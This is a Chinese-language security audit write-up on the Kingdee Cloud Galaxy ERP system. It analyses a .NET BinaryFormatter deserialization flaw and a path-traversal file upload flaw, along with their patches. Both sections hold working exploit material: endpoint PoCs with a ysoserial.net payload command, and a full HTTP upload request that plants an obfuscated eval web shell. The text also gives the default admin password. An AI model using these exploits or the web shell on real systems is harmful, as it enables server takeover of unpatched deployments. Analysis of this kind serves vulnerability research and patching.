


# 金蝶云星空 代码审计 - 先知社区

金蝶云星空 代码审计

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123340-e73039d8-c4a8-1.png)  
安得广厦千万间，大庇天下寒士俱欢颜，风雨不动安如山。

## 环境搭建

安装参考：  
[金蝶云星空 产品安装指南](https://zhuanlan.zhihu.com/p/606554062)  
[金蝶云星空安装教程 (附新版及稳定版客户端安装包下载地址)](https://www.heshuyun.com/265.html)

傻瓜式安装即可，K3Cloud 默认安装路径为`C:\Program Files (x86)\Kingdee\K3Cloud\WebSite`

访问 8000 端口的管理中心，默认管理员用户名：Administrator，密码：888888，后续创建 SQL Server 数据中心等等就不多赘述了

### 调试

接下来就是动调，使用工具：

-   dnSpy：[https://github.com/dnSpyEx/dnSpy/](https://github.com/dnSpyEx/dnSpy/)
-   Process Hacker:[https://processhacker.sourceforge.io/](https://processhacker.sourceforge.io/)

从 Web.config 可知，使用`Kingdee.BOS.ServiceFacade.KDServiceFx.KDServiceHandler`类处理`*.kdsvc`的路径

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123406-f645ae08-c4a8-1.png)

得到对应的 dll 文件为`Kingdee.BOS.ServiceFacade.KDServiceFx.DLL`，管理员身份运行 ProcessHacker，执行 Find Handles or DLLs

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123420-fecf0a42-c4a8-1.png)

找到包含 k3cloud 路径的 dll 文件，在该位置文件下新建一个同名的 .ini 文件

```plain
[.NET Framework Debugging Control]
GenerateTrackingInfo=1
AllowOptimize=0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123430-04ce9ba6-c4a9-1.png)

该文件的作用是禁用编译优化，重启 IIS 启用（打开 cmd 使用 iisreset 命令重启 IIS 服务器）

然后将这个目录下的`Kingdee.BOS.ServiceFacade.KDServiceFx.dll`文件加载到 dnsPy 中，找到对应的进程 ID

管理员身份运行 dnSpy，调试-->附加到进程-->选择相应的进程 ID-->附加

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123444-0cfae334-c4a9-1.png)

## 代码审计

查看调用堆栈：Ctrl+Alt+C  
搜索程序集：Ctrl+Shift+K

### 反序列化

受影响版本与补丁号范围信息如下：

| 产品版本 | 补丁号范围 |
| --- | --- |
| 金蝶云星空 V8.X 所有私有云、私有云（订阅）和混合云版本 | PT-146903 \[8.0.0.202202\]至 PT-149006 \[8.1.0.20230608\] |
| 金蝶云星空 V7.X 所有私有云、私有云（订阅）和混合云版本 | PT116278 \[7.0.352.16\]至 PT-146899 \[7.7.0.202112\] |
| 金蝶云星空 V6.2 及以下所有私有云版本 | PT123230 \[6.2.1012.4\]及以下版本与补丁 |

看到`Kingdee.BOS.ServiceFacade.KDServiceFx.KDServiceHandler`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123456-14958b12-c4a9-1.png)

返回程序实例 KDSVCHandler  
跟进`Kingdee.BOS.ServiceFacade.KDServiceFx.KDSVCHandler`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123511-1d8cabba-c4a9-1.png)

依次调用 ProcessRequest->ProcessRequestInternal->ExecuteRequest 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123519-224aad1e-c4a9-1.png)

`Kingdee.BOS.ServiceFacade.KDServiceFx.RequestExcuteRuntime#StartRequest`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123531-290c7128-c4a9-1.png)

跟进后会执行到 69 行的

```plain
string text3 = webCtx.Context.Server.MapPath(path);
ServiceType serviceType = ServiceTypeManager.BuidServiceType(text3);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123540-2e4dc7e0-c4a9-1.png)

根据请求路径加载对应程序集，然后在程序集中寻找对应的类和方法等

接着调用到 87 行的

```plain
RequestExcuteRuntime.pipeline.ExcuteRequest(kdserviceContext);
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123549-33e3be8a-c4a9-1.png)

跟进`Kingdee.BOS.ServiceFacade.KDServiceFx.ModulePipeline#ExcuteRequest`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123557-38e8a30a-c4a9-1.png)

对 Modules 遍历，从而调用不同的 OnProcess 方法

漏洞点在`Kingdee.BOS.ServiceFacade.KDServiceFx.ExecuteServiceModule#OnProcess`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123606-3e44b622-c4a9-1.png)

首先看到 GetServiceParameters

```plain
public string[] GetServiceParameters(string[] paras)
{
    string[] array = new string[paras.Length];
    if (this.form.AllKeys.Contains("parameters"))
    {
        string text = this.form["parameters"];
        JSONArray jsonarray = new JSONArray(text);
        int num = Math.Min(jsonarray.Count, array.Length);
        for (int i = 0; i < num; i++)
        {
            if (jsonarray[i] == null)
            {
                array[i] = string.Empty;
            }
            else
            {
                Type type = jsonarray[i].GetType();
                if (type.IsValueType || type == typeof(string))
                {
                    array[i] = jsonarray[i].ToString();
                }
                else
                {
                    array[i] = jsonarray.GetJsonString(i);
                }
            }
        }
    }
    else
    {
        int num2 = 0;
        for (int j = 0; j < paras.Length; j++)
        {
            array[j] = this.form[paras[j]];
            if (array[j] == null)
            {
                array[j] = this.form["ap" + num2++];
            }
        }
    }
    return array;
}
```

即获取参数的方法：

1.  如果在 POST 参数中存在 parameters 键，则将该参数解析为⼀个 JSONArray 对象
2.  如果不存在，则根据所需的参数数量进行 for 循环，以 ap 为开头，依次遍历数字

那么就存在两种传参方式：

```plain
{"ap0":"payload","format":"3"}
{"parameters":["payload"],"format":"3"}
```

往下看，创建了⼀个 serializerProxy 序列化代理器，它会根据 format 的值创建对应的序列化类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123625-4971f050-c4a9-1.png)

由于我们这里 format 传的值为 3

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123634-4e89b9e2-c4a9-1.png)

即 Binary

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123642-53bb4f0c-c4a9-1.png)

返回⼀个 BinaryFormatterProxy 类

最后会调用`Kingdee.BOS.ServiceFacade.KDServiceFx.ServiceExecutor#Execute`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123651-58d47f72-c4a9-1.png)

先要满足 Activator.CreateInstance 实例化，即 svcType.MapToCLRType 的构造函数需要支持传递 context（KDServiceContext）类型或者继承该类型的参数

```plain
object obj = Activator.CreateInstance(svcType.MapToCLRType, new object[] { context });
object[] array = this.DeserializeParameters(serializeProxy, svcType, paraValues);
```

继续跟进

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123700-5e26b2b0-c4a9-1.png)

遍历参数并进行反序列化，跟进发现对参数类型进行了限制

```plain
public object Deserialize(string content, Type type)
{
    if (string.IsNullOrEmpty(content))
    {
        if (type.IsValueType)
        {
            return Activator.CreateInstance(type);
        }
        if (type.Equals(typeof(string)))
        {
            return content;
        }
        return null;
    }
    else if (type == typeof(string))
    {
        if (this.proxy.RequireEncoding)
        {
            byte[] array = this.proxy.Encoder.Decoding(content);
            return this.encoding.GetString(array, 0, array.Length);
        }
        return content;
    }
    else
    {
        if (type.IsEnum)
        {
            return Enum.Parse(type, content, true);
        }
        if (type == typeof(int))
        {
            return int.Parse(content);
        }
        if (type == typeof(byte))
        {
            return byte.Parse(content);
        }
        if (type == typeof(float))
        {
            return float.Parse(content);
        }
        if (type == typeof(double))
        {
            return double.Parse(content);
        }
        if (type == typeof(long))
        {
            return long.Parse(content);
        }
        if (type == typeof(DateTime))
        {
            return DateTime.Parse(content);
        }
        if (type == typeof(decimal))
        {
            return decimal.Parse(content);
        }
        if (type == typeof(bool))
        {
            return bool.Parse(content);
        }
        return this.proxy.Deserialize(content, type);
    }
}
```

参数类型不能为 string、int、byte、float、double、long 等等，我们可以使用如：Object、List、JSONArray 等类型，最终调用`this.proxy.Deserialize(content, type)`方法实现反序列化，即 BinaryFormatter 反序列化：[https://learn.microsoft.com/zh-cn/dotnet/standard/serialization/binaryformatter-security-guide?source=recommendations#binaryformatter-security-vulnerabilities](https://learn.microsoft.com/zh-cn/dotnet/standard/serialization/binaryformatter-security-guide?source=recommendations#binaryformatter-security-vulnerabilities)

#### 漏洞利用

看到文件 Kingdee.BOS.ServiceFacade.ServicesStub.dll，里面存在大量可利用的类

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123722-6b14052c-c4a9-1.png)

对应 poc：

```plain
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.DevReportService.GetBillData.common.kdsvc

{"ap0":"1","ap1":"1","ap2":"payload","format":"3"}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123731-70c8edca-c4a9-1.png)

对应 poc：

```plain
/K3Cloud/Kingdee.BOS.ServiceFacade.ServicesStub.BizTipsInfosService.SaveBizTipsInfos.common.kdsvc

{"ap0":"1","ap1":"payload","format":"3"}
```

最后使用工具：[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)，生成回显 poc

```plain
ysoserial.exe -c "ExploitClass.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123739-75af0ce8-c4a9-1.png)

#### 漏洞修复&绕过风险

补丁下载地址：[https://open.kingdee.com/K3Cloud/Open/PTDownload.aspx](https://open.kingdee.com/K3Cloud/Open/PTDownload.aspx)

发现在`Kingdee\K3Cloud\WebSite\App_Data\Common.config`进行了安全加固

```plain
<add key="KDSVCDefaultFormat" value="4"/>    
<add key="EnabledKDSVCBinary" value="false"/>     
<add key="EnabledKDSVCDataCheckSum" value="true"/>
```

禁用 Binary，启用了新的数据签名校验格式：KingdeeXml，在版本【PT-146930 \[8.1.0.20221110\] 发布时间:2022/11/10 构建号：8.1.410.13】及之后生效，之前的版本并不支持

打补丁：PT-151002 \[8.1.0.20230921\] 测试一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123750-7bf6d3ce-c4a9-1.png)

但是使用 KingdeeXml 真的安全吗？

看到当 format 为 4 时，会创建⼀个 XmlSerializerProxy 代理器

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123758-80f36c70-c4a9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123806-85a6d0c2-c4a9-1.png)

看到它的 Deserialize 方法，`Kingdee.BOS.ServiceFacade.XmlSerializerProxy#Deserialize`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123814-8a3acdfa-c4a9-1.png)

先经过 NetDataContractSerializer 反序列化成 KingdeeXMLPack 对象，最终还是调用了 BinaryFormatterProxy 处理 kingdeeXMLPack.Data

但是官方在反序列化前增加了`this.UnpackCheckSum(content)`方法进行检测

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123858-a4a3abda-c4a9-1.png)

如果开启了 DataCheckSum 并且传入的数据为 xml 格式，就会进入后续验证，也就防止了不安全的反序列化

### ScpSupRegHandler 任意文件上传

影响版本：V6.2(含 17 年 12 月补丁) 至 V8.1(含 23 年 9 月补丁)

看到配置文件`Kingdee\K3Cloud\WebSite\App_Data\Common.config`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123907-aa183996-c4a9-1.png)

发现是使用`Kingdee.K3.SCM.SCP.Business.PlugIn.ScpSupRegHandler`类处理`SRM/ScpSupRegHandler`接口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123916-af440a9e-c4a9-1.png)

如果存在文件上传操作，则调用 SaveAttach 方法处理

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123926-b516d078-c4a9-1.png)

首先是`Path.GetExtension(httpPostedFile.FileName)`获取文件扩展名，将`.`替换为空，变为小写，然后使用白名单判断

乍看貌似是没问题的，但是如果我们传入的文件为`test.aspx.`

```plain
"txt,pdf,doc,docx,xls,xlsx,ppt,pptx,rft,jpg,png,bmp,gif,jpeg,rar,zip,dat,key,msg,cad,btw,avi,rmvb,wps,et,dps,vsd".Contains(text)
```

那么 text 就为空，恒为真

后续需要传递参数 FID 和 dbId\_v

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123935-ba6ef4a6-c4a9-1.png)

确保不异常退出

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123942-bedc2e1e-c4a9-1.png)

最后就是文件上传，看到直接使用`+`进行拼接，并且未做重命名处理

可以利用`../`跨目录，并且由于 windows 上传特性，会删除最后一个点，即上传文件名可以为`../../../../uploadfiles/test.aspx.`

#### 漏洞利用

```plain
POST /K3Cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 192.168.111.138
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------606727559931226829481104
Content-Length: 610

----------------------------606727559931226829481104
Content-Disposition: form-data; name="dbId_v"

.
----------------------------606727559931226829481104
Content-Disposition: form-data; name="FID"

2024
----------------------------606727559931226829481104
Content-Disposition: form-data; name="file"; filename="../../../../uploadfiles/test.aspx."
Content-Type: text/plain

<% function EE82o3kp(){var GEPH="unsa",YACK="fe",CO0C=GEPH+YACK;return CO0C;}var PAY:String=Request["123"];~eval/*Za61vZ34F4*/(PAY,EE82o3kp());%><%@Page Language = JS%>
----------------------------606727559931226829481104--
```

蚁剑连接

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206123953-c56f8366-c4a9-1.png)

#### 漏洞修复

下载最新补丁

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206124002-ca7520c8-c4a9-1.png)

看到后续新增了 ValidateWhiteList 方法处理文件名

[](https://xzfile.aliyuncs.com/media/upload/picture/20240206124009-cf2c5f46-c4a9-1.png)

跟进发现检测了扩展名：

1.  不能为空或者 NULL
2.  不能包含特殊字符：`\\/:*?\"<>|;`

这样也就避免了目录穿越以及后缀绕过的可能了

## 总结

很经典的 windows 文件上传姿势，学习到了，当然 ASP.NET 的反序列化也是历久弥新，找机会好好深入学习一下 (￣□￣)

参考：  
[.NET 安全系列 | 某蝶 K3Cloud 最新反序列化分析](https://mp.weixin.qq.com/s/pNDqKKCWfRBS50vxKMg1nA)  
[从入门 .NET 到分析金蝶反序列化漏洞学习笔记](https://paper.seebug.org/2089/)  
[某云星空的前台反序列化和任意文件上传漏洞分析](https://xz.aliyun.com/t/13079)  
[某云的反序列漏洞及绕过思路分析](https://forum.butian.net/share/2658)
